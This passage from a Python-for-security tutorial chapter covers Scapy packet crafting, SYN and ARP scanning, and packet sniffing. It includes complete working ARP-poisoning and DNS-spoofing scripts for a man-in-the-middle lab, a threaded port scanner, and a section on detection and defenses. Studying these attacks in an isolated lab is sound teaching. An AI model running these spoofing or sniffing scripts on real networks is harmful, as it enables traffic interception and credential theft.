operator, which means "the layer on the right is the payload of the layer on the left."

```python
from scapy.all import IP, TCP, ICMP, Ether, ARP, sr1, srp, send, sniff

pkt = IP(dst="10.10.10.5") / TCP(dport=80, flags="S")
```

Read that as: an IP layer addressed to `10.10.10.5`, carrying a TCP layer to port 80 with
the SYN flag set. Inspect it:

```python
>>> pkt.summary()
'IP / TCP 10.10.14.7:ftp_data > 10.10.10.5:http S'
>>> pkt.show()      # full field-by-field dump, showing defaults Scapy filled in
```

`pkt.show()` prints every field and reveals what Scapy auto-populated: source IP (from your
routing table), IP version/ihl, TTL (64), a random source port, sequence number, and so on.
You override any field simply by naming it: `IP(dst="x", ttl=1)`, `TCP(dport=443,
flags="SA", seq=1000)`.

The sending functions you'll use constantly:

| Function | Layer | Behaviour |
|---|---|---|
| `send(pkt)` | L3 | Send IP packet(s), no reply captured |
| `sendp(pkt)` | L2 | Send Ethernet frame(s) (you build the L2 header) |
| `sr1(pkt)` | L3 | Send and return the **first** reply (most common for scanning) |
| `sr(pkt)` | L3 | Send and return **all** (answered, unanswered) pairs |
| `srp(pkt)` | L2 | Like `sr` but at layer 2 (for ARP) |
| `sniff(...)` | — | Capture packets off the wire |

`sr1` (send/receive-one) is the workhorse: send one crafted packet, get back the one reply,
inspect its fields. That single primitive builds a SYN scanner, an ICMP pinger, and a
TTL-based traceroute.

## Part 9: Crafting and Sending — Ping, SYN Scan, ARP Sweep

### ICMP Ping (Layer 3)

```python
from scapy.all import IP, ICMP, sr1

def ping(host, timeout=2):
    reply = sr1(IP(dst=host) / ICMP(), timeout=timeout, verbose=0)
    if reply:
        print(f"[+] {host} is up (TTL={reply.ttl})")
        return True
    print(f"[-] {host} no reply")
    return False

ping("scanme.nmap.org")
```

`sr1` sends the ICMP echo request and returns the echo reply (or `None` on timeout).
`verbose=0` silences Scapy's default progress chatter. The returned packet's `ttl` field
even hints at the OS: a reply TTL near 64 suggests Linux, near 128 suggests Windows (both
decremented by the hop count) — a crude but real fingerprinting trick.

### TCP SYN Scan (the "half-open" scan)

This is where Scapy earns its place. A **SYN scan** sends a SYN, and:

- an open port replies **SYN-ACK** (flags `0x12`),
- a closed port replies **RST-ACK** (flags `0x14`),
- a filtered port replies with nothing.

Crucially, we **never send the final ACK**, so the handshake never completes — the OS on
the far side may not even log a full connection. That's why it's called a *half-open* or
*stealth* scan.

```python
from scapy.all import IP, TCP, sr1, send

def syn_scan(host, ports, timeout=1):
    open_ports = []
    for port in ports:
        pkt = IP(dst=host) / TCP(dport=port, flags="S")
        resp = sr1(pkt, timeout=timeout, verbose=0)
        if resp is None:
            continue                                # filtered / no reply
        if resp.haslayer(TCP):
            flags = resp[TCP].flags
            if flags == 0x12:                       # SYN-ACK → OPEN
                open_ports.append(port)
                print(f"[+] {port}/tcp open")
                # Politely tear down so we don't leave a half-open on the target
                send(IP(dst=host) / TCP(dport=port, flags="R"), verbose=0)
            elif flags == 0x14:                     # RST-ACK → CLOSED
                pass
    return open_ports

syn_scan("scanme.nmap.org", [21, 22, 80, 443, 3306])
```

Details that matter:

- **`flags="S"`** sets only the SYN bit. Scapy accepts letter codes: `S`YN, `A`CK, `F`IN,
  `R`ST, `P`SH, `U`RG. `flags="SA"` = SYN+ACK, `flags="FPU"` = the "Xmas" scan.
- **`resp[TCP].flags == 0x12`** — `0x12` is binary `010010` = SYN(2) + ACK(16). Comparing
  the raw flag value is the reliable check.
- **The manual RST** — because *we* crafted the SYN (not the OS stack), the kernel doesn't
  know about this connection and would otherwise leave the target holding a half-open
  connection. Sending an RST cleans up. `nmap -sS` does this automatically.

**Why SYN scanning needs Scapy (or root + raw sockets):** a normal `socket.connect()`
*always* completes the handshake — the kernel won't let you stop halfway. To send a lone SYN
you must craft the packet yourself and inject it raw, which requires root. This is the core
reason `nmap -sS` needs `sudo` while `nmap -sT` (connect scan) does not.

### ARP Host Discovery (Layer 2)

To find live hosts on your *local* subnet, ARP is faster and more reliable than ICMP
(hosts may firewall ping but *must* answer ARP to communicate at all). This is `arp-scan`
in a few lines:

```python
from scapy.all import Ether, ARP, srp

def arp_sweep(cidr="192.168.1.0/24", timeout=2):
    # Broadcast Ethernet frame carrying an ARP "who-has" for the whole subnet.
    pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=cidr)
    answered, _ = srp(pkt, timeout=timeout, verbose=0)
    hosts = []
    for _, reply in answered:
        hosts.append((reply.psrc, reply.hwsrc))    # IP, MAC
        print(f"[+] {reply.psrc:<15} {reply.hwsrc}")
    return hosts

arp_sweep("192.168.56.0/24")
```

Sample output on a small lab network:

```
[+] 192.168.56.1     0a:00:27:00:00:00
[+] 192.168.56.100   08:00:27:1b:9c:3e
[+] 192.168.56.101   08:00:27:a4:5f:12
```

Notes:

- **`srp`** (send/receive at layer 2) is used because ARP lives *below* IP — you're
  addressing by MAC, so you build the `Ether` frame yourself and broadcast to
  `ff:ff:ff:ff:ff:ff`.
- **`ARP(pdst=cidr)`** — Scapy expands the CIDR and sends a who-has for each address.
- The returned `hwsrc` (MAC) prefixes identify vendors — `08:00:27` is VirtualBox, telling
  you instantly these are VMs. That OUI lookup is how tools flag virtual/host machines.

**Red-team relevance:** ARP discovery is the quietest way to map a subnet you've landed on —
it's layer-2 broadcast traffic that blends into normal operation and never crosses a router,
so it won't show in upstream firewall logs. It's usually step one after gaining a foothold.

## Part 10: Sniffing With Scapy — Capture, Filter, Dissect

Scapy can also *read* the wire. `sniff()` captures packets, optionally filtered with a BPF
(Berkeley Packet Filter) expression — the same syntax `tcpdump` and Wireshark use.

```python
from scapy.all import sniff, TCP, IP, Raw

def handle(pkt):
    if pkt.haslayer(IP):
        proto = "TCP" if pkt.haslayer(TCP) else "other"
        print(f"{pkt[IP].src:>15} → {pkt[IP].dst:<15} {proto}")
        # Surface any cleartext HTTP credentials-ish data for a demo
        if pkt.haslayer(Raw) and pkt.haslayer(TCP) and pkt[TCP].dport == 80:
            payload = bytes(pkt[Raw].load)
            if b"POST" in payload or b"password" in payload.lower():
                print("   [!] cleartext HTTP payload seen")

# Capture 50 packets on eth0, only TCP port 80, calling handle() on each.
sniff(iface="eth0", filter="tcp port 80", prn=handle, count=50, store=False)
```

Key parameters:

- **`filter="tcp port 80"`** — a BPF expression applied in the kernel *before* packets reach
  Python, so it's efficient. Examples: `"host 10.0.0.5"`, `"udp port 53"`, `"arp"`,
  `"tcp port 80 or tcp port 443"`, `"not port 22"` (exclude your own SSH so you don't sniff
  your session).
- **`prn=handle`** — a callback run on every captured packet. This is where your logic lives.
- **`count=50`** — stop after 50 packets (`0` = forever). **`store=False`** — don't keep
  packets in memory (essential for long captures, or you leak RAM).
- **`iface="eth0"`** — which interface to listen on. To see *other* hosts' traffic (not just
  your own) you need the NIC in **promiscuous mode** and, on a switched network, traffic must
  actually reach you — which is exactly what ARP spoofing (Part 11) arranges.

Reading a capture file instead of live:

```python
from scapy.all import rdpcap
packets = rdpcap("capture.pcap")     # load a Wireshark/tcpdump save
for p in packets:
    if p.haslayer(TCP):
        print(p.summary())
```

**Blue-team / DFIR relevance:** the same `sniff`/`rdpcap` primitives power detection tooling
and PCAP triage. An analyst handed a suspicious capture can script exactly the extraction
they need — pull all DNS queries, list every unique destination IP, dump HTTP hosts — in a
few lines, far faster than clicking through Wireshark. `count`, BPF filters, and a `prn`
callback are all you need for a bespoke IDS prototype.

## Part 11: Lab — ARP Spoofing and DNS Spoofing on an Isolated Network

This lab demonstrates a **man-in-the-middle** attack you build yourself. It is
**offensive and must only be run on a private, isolated lab network you fully own** — for
example two VirtualBox VMs and a host on a host-only `192.168.56.0/24` network with *no
route to the internet or any other network*. Running ARP/DNS spoofing on a network you do
not own is illegal in most jurisdictions. This walkthrough is for understanding detection
and defense as much as offense.

### Lab topology



### Step 1 — enable forwarding so the victim's traffic still reaches the gateway

Without this, redirecting traffic through the attacker *breaks* the victim's connectivity
(a denial of service, and an obvious tell). Forwarding makes the MITM transparent:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

### Step 2 — the ARP spoofer

ARP has no authentication: a host caches whatever ARP reply it hears. By repeatedly telling
the victim "the gateway's IP is at *my* MAC" and telling the gateway "the victim's IP is at
*my* MAC", we insert ourselves in the middle.

```python
from scapy.all import ARP, Ether, srp, send
import time, sys

def get_mac(ip):
    ans, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip),
                 timeout=2, verbose=0)
    for _, r in ans:
        return r.hwsrc
    return None

def spoof(target_ip, spoof_ip, target_mac):
    # Tell target_ip that spoof_ip is at OUR mac (op=2 is an ARP reply).
    pkt = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(pkt, verbose=0)

def restore(dst_ip, src_ip):
    # Send correct mapping to heal the caches on exit.
    dst_mac, src_mac = get_mac(dst_ip), get_mac(src_ip)
    send(ARP(op=2, pdst=dst_ip, hwdst=dst_mac, psrc=src_ip, hwsrc=src_mac),
         count=4, verbose=0)

if __name__ == "__main__":
    victim, gateway = "192.168.56.101", "192.168.56.1"
    v_mac, g_mac = get_mac(victim), get_mac(gateway)
    print(f"[*] victim {victim} = {v_mac}")
    print(f"[*] gateway {gateway} = {g_mac}")
    try:
        while True:
            spoof(victim, gateway, v_mac)   # victim thinks WE are the gateway
            spoof(gateway, victim, g_mac)   # gateway thinks WE are the victim
            time.sleep(2)                   # re-poison before caches expire
    except KeyboardInterrupt:
        print("\n[*] Restoring ARP tables...")
        restore(victim, gateway)
        restore(gateway, victim)
        sys.exit(0)
```

- **`ARP(op=2, ...)`** — `op=2` is an unsolicited ARP *reply* (a "gratuitous ARP"). We didn't
  wait to be asked; we just assert the mapping. Hosts trustingly cache it.
- **The `time.sleep(2)` loop** re-sends every 2 seconds because ARP cache entries expire and
  the real gateway also broadcasts corrections. You must "win" continuously.
- **`restore()` on Ctrl-C** sends the *true* mappings four times so the network heals when
  you stop — leaving the victim on a poisoned cache is both destructive and a giveaway.

### Step 3 — DNS spoofing on top of the MITM

Once traffic flows through us, we can *answer DNS queries with lies*. Here we redirect any
lookup for `example.com` to our own IP. This uses Scapy's `sniff` with a `prn` that forges
a reply:

```python
from scapy.all import sniff, IP, UDP, DNS, DNSRR, send

FAKE_IP = "192.168.56.50"          # attacker's web server
TARGET  = b"example.com."

def dns_spoof(pkt):
    if pkt.haslayer(DNS) and pkt.getlayer(DNS).qr == 0:      # a query (qr=0)
        qname = pkt[DNS].qd.qname
        if TARGET in qname:
            spoofed = (
                IP(dst=pkt[IP].src, src=pkt[IP].dst) /
                UDP(dport=pkt[UDP].sport, sport=53) /
                DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                    an=DNSRR(rrname=qname, ttl=300, rdata=FAKE_IP))
            )
            send(spoofed, verbose=0)
            print(f"[+] Spoofed {qname.decode()} → {FAKE_IP}")

sniff(iface="eth0", filter="udp port 53", prn=dns_spoof, store=False)
```

- **`DNS().qr == 0`** distinguishes a *query* (0) from a *response* (1) — we only forge
  replies to questions.
- **`DNS(id=pkt[DNS].id, ...)`** — we copy the query's transaction ID so the victim's
  resolver accepts our reply as legitimate. Matching the ID (and the question) is how the
  forged answer beats the real one — a race we win because we're in the middle.
- **`DNSRR(rrname=qname, rdata=FAKE_IP)`** — the forged answer record pointing the domain at
  our IP. The victim now connects to *our* server believing it's `example.com`.

Chaining ARP + DNS spoofing means a victim browsing to `example.com` lands on your machine —
the foundation of credential-harvesting and downgrade attacks. Again: **isolated lab only.**

## Part 12: Packaging It Into a Real CLI Tool with argparse

A pile of scripts isn't a tool. The standard-library `argparse` module turns a script into
a proper command-line program with flags, help text, defaults, and validation — the
difference between `python scan.py` and `python scan.py -t 10.0.0.5 -p 1-1000 --threads 500`.

```python
#!/usr/bin/env python3
"""pyscan — a small threaded TCP port scanner + banner grabber."""
import argparse
import socket
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

def parse_ports(spec):
    """Accept '80', '1-1024', or '22,80,443' → a set of ints."""
    ports = set()
    for part in spec.split(","):
        if "-" in part:
            lo, hi = part.split("-")
            ports.update(range(int(lo), int(hi) + 1))
        else:
            ports.add(int(part))
    return sorted(ports)

def scan(host, port, timeout, grab):
    try:
        with socket.create_connection((host, port), timeout=timeout) as s:
            banner = ""
            if grab:
                s.settimeout(timeout)
                try:
                    banner = s.recv(1024).decode(errors="replace").strip()
                except socket.timeout:
                    banner = ""
            return port, True, banner
    except (ConnectionRefusedError, socket.timeout, OSError):
        return port, False, ""

def main():
    p = argparse.ArgumentParser(
        prog="pyscan",
        description="Threaded TCP connect scanner with optional banner grab.",
        epilog="Only scan hosts you own or are authorised to test.",
    )
    p.add_argument("-t", "--target", required=True, help="target host or IP")
    p.add_argument("-p", "--ports", default="1-1024",
                   help="ports: 80 | 1-1024 | 22,80,443  (default 1-1024)")
    p.add_argument("--threads", type=int, default=200, help="worker threads")
    p.add_argument("--timeout", type=float, default=1.0, help="socket timeout (s)")
    p.add_argument("-b", "--banner", action="store_true", help="grab banners")
    p.add_argument("-v", "--verbose", action="store_true", help="show closed too")
    args = p.parse_args()

    ports = parse_ports(args.ports)
    print(f"[*] Scanning {args.target}: {len(ports)} ports, "
          f"{args.threads} threads")
    found = []
    with ThreadPoolExecutor(max_workers=args.threads) as pool:
        futs = [pool.submit(scan, args.target, port, args.timeout, args.banner)
                for port in ports]
        for f in as_completed(futs):
            port, is_open, banner = f.result()
            if is_open:
                found.append(port)
                line = f"[+] {port}/tcp open"
                if banner:
                    line += f"   {banner}"
                print(line)
            elif args.verbose:
                print(f"[-] {port}/tcp closed")
    print(f"[*] Done — {len(found)} open: {found}")

if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("\n[!] Interrupted")
        sys.exit(130)
```

What `argparse` bought us, line by line:

- **`add_argument("-t", "--target", required=True)`** — a mandatory flag; omit it and
  argparse prints a usage error and exits, no manual checking needed.
- **`type=int` / `type=float`** — automatic conversion *and* validation; `--threads abc`
  errors cleanly instead of crashing deep in the code.
- **`action="store_true"`** — a boolean flag: present → `True`, absent → `False`
  (`-b`, `-v`).
- **`default=...`** — sensible defaults so the tool works with minimal typing.
- **Free `--help`** — argparse auto-generates `pyscan --help` with usage, every flag, and
  the epilog. Try it:

```bash
$ python3 pyscan.py --help
usage: pyscan [-h] -t TARGET [-p PORTS] [--threads THREADS]
              [--timeout TIMEOUT] [-b] [-v]

Threaded TCP connect scanner with optional banner grab.
...
$ python3 pyscan.py -t scanme.nmap.org -p 20-90 -b
[*] Scanning scanme.nmap.org: 71 ports, 200 threads
[+] 22/tcp open   SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
[+] 80/tcp open
[*] Done — 2 open: [22, 80]
```

This is a *real* tool now: distributable, documented, and usable by someone who never reads
the source. The `#!/usr/bin/env python3` shebang plus `chmod +x pyscan.py` lets you run it as
`./pyscan.py`. That progression — snippet → function → module → CLI — is exactly how the
tools you rely on were born.

## Part 13: Detection & Defense Angle

Everything you built in this chapter is *loud* to a defender who is watching. Understanding
the traces you leave is what separates a script kiddie from an operator — and is essential
if you sit on the blue team.

**Connect scans (Part 3/4) are the noisiest.** A full three-way handshake to a closed or
unusual port leaves a log entry in the service, the host firewall, and any flow collector
(NetFlow/IPFIX). A burst of connections from one source to many ports in seconds is the
textbook IDS signature. Snort/Suricata ship rules like `sfPortscan`; Zeek's `scan.log`
flags it directly. **Defensive detection:** alert on a single source touching more than *N*
distinct ports within a short window; rate-limit new connections per source IP with
`iptables`/`nftables` (`-m recent` or `-m connlimit`).

**SYN scans (Part 9) evade connection logs but not packet inspection.** Because the handshake
never completes, application logs stay quiet — but the *pattern* of lone SYNs with no
following ACK is itself detectable at the network layer, and SYN-flood/half-open mitigations
(SYN cookies) and IDS SYN-scan rules catch it. Stealthier to the host, still visible to the
network.

**ARP spoofing (Part 11) has a clean signature: duplicate/changing MAC-for-IP mappings and a
flood of gratuitous ARP replies.** Detection tools like `arpwatch`, `XArp`, and switch
features (Dynamic ARP Inspection with DHCP snooping) catch it. **Defense:** static ARP
entries for critical hosts, DAI on managed switches, and network segmentation so an attacker
who owns one host can't ARP-poison across VLANs. The tell-tale is one MAC suddenly claiming
two IPs, or one IP flipping between MACs.

**DNS spoofing (Part 11)** is defeated by **DNSSEC** (cryptographically signed records the
resolver can validate) and by encrypted DNS (DoH/DoT), which also prevents the passive
sniffing the attack relies on. A blue-team detection: two DNS answers for the same query ID,
or answers arriving from unexpected sources.

**Sniffing (Part 10) is passive and hard to detect directly**, but its *enabler* — putting a
NIC in promiscuous mode — can sometimes be spotted, and the ARP spoofing usually required to
sniff a switched network is loud. **Defense:** encrypt everything (TLS, SSH), so captured
traffic is useless; use switches with port security; segment the network.



The meta-lesson: **the same primitives serve both sides.** Your `sniff()` callback is either
a credential harvester or an IDS depending on intent; your ARP code is either a MITM or an
`arpwatch`-style monitor. Learn the offense to build the defense.

## Final Revision — Recap

- A **socket** is one endpoint of a network conversation, identified by the 5-tuple
  (protocol, src IP, src port, dst IP, dst port), and on Unix it *is* a file descriptor.
- **TCP client sockets**: `socket()` → `connect()` → `sendall()` → `recv()` loop → `close()`.
  Always `settimeout`. Data is **bytes**, not str. `recv` returns a *stream*, not messages,
  so loop until `b""`.
- A **connect port scanner** just attempts `connect()` per port: success=open,
  RST=closed(`ConnectionRefusedError`), timeout=filtered. Sequential scanning is fatally
  slow.
- **Threading** (`ThreadPoolExecutor`) makes I/O-bound scanning fast because blocked threads
  release the GIL; hundreds of workers turn minutes into seconds. **asyncio** scales to tens
  of thousands via a single-threaded event loop — but one blocking call freezes it.
- **UDP** is connectionless (`sendto`/`recvfrom`); scanning it is hard because silence is
  ambiguous (`open|filtered`) — you need protocol-correct probes.
- **Server sockets**: `bind` → `listen` → `accept`; set `SO_REUSEADDR`. The two-thread
  bidirectional **relay** is the shape of every proxy and pivot.
- **Scapy** forges packets layer by layer with `/`; `sr1` sends and gets one reply. It needs
  root because it injects raw/L2 packets the kernel never would.
- **SYN scan** (`flags="S"`, read `0x12`/`0x14`) is half-open and needs Scapy because
  `connect()` can't stop mid-handshake. **ARP sweep** (`srp` + broadcast `Ether`) is the
  quiet way to map a local subnet.
- **`sniff`** with a BPF `filter` and a `prn` callback captures and dissects traffic —
  attacker's harvester or defender's IDS, same code.
- **ARP + DNS spoofing** build a MITM: gratuitous ARP replies (`op=2`) poison caches; forged
  DNS answers matching the query ID redirect the victim. Lab-only.
- **`argparse`** turns a script into a real CLI: `required`, `type=`, `action="store_true"`,
  defaults, and free `--help`.
- Everything here is loud to a defender: connect scans hit logs, SYN scans hit IDS, ARP/DNS
  spoofing trip `arpwatch`/DNSSEC. Know your footprint; only ever test what you own.

## Cheat Sheet / Quick Reference

**Socket basics**

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # TCP
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)   # UDP
s.settimeout(2)
s.connect((host, port)); s.sendall(b"..."); s.recv(4096); s.close()
socket.create_connection((host, port), timeout=2)      # preferred client helper
s.sendto(data, (host, port)); s.recvfrom(1024)         # UDP
# server:
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((host, port)); s.listen(5); conn, addr = s.accept()
```

**Port-scan outcomes**

| Result of connect() | Meaning |
|---|---|
| success | open |
| `ConnectionRefusedError` (RST) | closed |
| `socket.timeout` | filtered (firewall drop) |

**Concurrency**

```python
from concurrent.futures import ThreadPoolExecutor, as_completed
with ThreadPoolExecutor(max_workers=200) as p:
    futs = [p.submit(fn, x) for x in items]
    for f in as_completed(futs): f.result()
# asyncio: asyncio.run(main()); await asyncio.open_connection(h,p);
#          asyncio.wait_for(fut, timeout); asyncio.Semaphore(n)
```

**Scapy essentials**

```python
from scapy.all import *
IP(dst="x")/TCP(dport=80, flags="S")     # stack layers with /
sr1(pkt, timeout=1, verbose=0)           # send, get first reply
send(pkt) / sendp(pkt)                   # L3 / L2, no reply
srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="10.0.0.0/24"))  # ARP sweep
sniff(iface="eth0", filter="tcp port 80", prn=cb, count=50, store=False)
rdpcap("file.pcap")                      # read a capture
pkt.show(); pkt.summary(); ls(TCP)       # inspect
```

**TCP flag values (Scapy `flags` / raw)**

| Letters | Hex | Name |
|---|---|---|
| S | 0x02 | SYN |
| SA | 0x12 | SYN-ACK (open) |
| RA | 0x14 | RST-ACK (closed) |
| FPU | 0x29 | Xmas scan |

**argparse skeleton**

```python
import argparse
p = argparse.ArgumentParser(description="...")
p.add_argument("-t", "--target", required=True)
p.add_argument("-p", "--ports", default="1-1024")
p.add_argument("--threads", type=int, default=200)
p.add_argument("-b", "--banner", action="store_true")
args = p.parse_args()
```

**Common BPF filters**: `tcp port 80`, `udp port 53`, `host 10.0.0.5`, `arp`,
`not port 22`, `tcp port 80 or tcp port 443`.

## Common Pitfalls & Misconceptions

- **Forgetting `settimeout`** — the number-one bug. Your scanner hangs forever on the first
  firewalled port. Set a timeout on every socket.
- **Treating `recv` as message-oriented** — TCP is a byte stream; one `recv` may return a
  partial message or several coalesced. Always loop until you have a full response or `b""`.
- **Sending `str` instead of `bytes`** — `s.send("GET /")` raises `TypeError`. Encode:
  `"...".encode()` or use a `b"..."` literal.
- **Not closing sockets** — leaks file descriptors; a big scan dies with `Too many open
  files`. Use `with` blocks or `finally: s.close()`.
- **Blocking calls inside asyncio** — a single `requests.get()` or `time.sleep()` in a
  coroutine freezes the whole event loop. Use async equivalents only.
- **Running Scapy without root** — raw/L2 injection needs privileges; you'll get permission
  errors or silently no packets. Use `sudo`.
- **Expecting a UDP scan to be reliable** — `open|filtered` is inherent, not a bug. Only
  protocol-correct probes disambiguate.
- **Leaving a poisoned ARP cache** — always `restore()` on exit, or you've DoS'd your lab
  victim and left an obvious trace.
- **Scanning things you don't own** — even a connect scan is logged and can be unlawful.
  Authorisation first, always.

## Practice Labs & Resources

Train these exact skills, not generic ones:

- **TryHackMe — "Python for Pentesters"** and **"Intro to Python"**: build scanners and
  network tools step by step, matching this chapter.
- **TryHackMe — "Network Services" / "Network Services 2"**: practise enumerating the TCP/UDP
  services (SMB, Telnet, NFS, SMTP, MySQL) your `pyscan` and banner grabber will find.
- **HackTheBox — "Starting Point" machines** (e.g. *Meow*, *Fawn*, *Dancing*): use your own
  socket banner-grabber and `nmap` side by side to fingerprint services and compare.
- **OverTheWire — Bandit** (levels using `nc`/sockets): reinforces the raw byte-stream mental
  model your socket code depends on.
- **PortSwigger / general recon**: not directly socket-based, but pairs with Chapter 2's HTTP
  work; use your Part 2 raw-HTTP client to fetch a `Server:` header without `requests`.
- **Scapy official docs — "Interactive tutorial"**: work through crafting, `sr1`, `srp`,
  `sniff` in the interactive shell; the canonical reference for Part 8–11.
- **Isolated home lab**: two VirtualBox/VMware VMs on a host-only network — run the ARP/DNS
  spoofing lab against a VM you own, watch the effect in Wireshark, then run `arpwatch` on a
  third VM to *detect your own attack*. Doing both sides cements the Detection & Defense part.
- **Rebuild-a-tool challenge**: reimplement a minimal `arp-scan`, then a minimal `nmap -sS`,
  then a minimal `mitmproxy` relay, comparing your output to the real tool each time.

Chapter 4 moves from Python to **Bash** — scripting the shell itself for offensive and
defensive automation: glue that stitches these tools into pipelines, log-parsing one-liners,
and the loops and traps that turn manual command sequences into repeatable, hardened scripts.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/programming-for-security/03-python-for-security-part-3-sockets-scapy-and), with comments and the latest edits.*
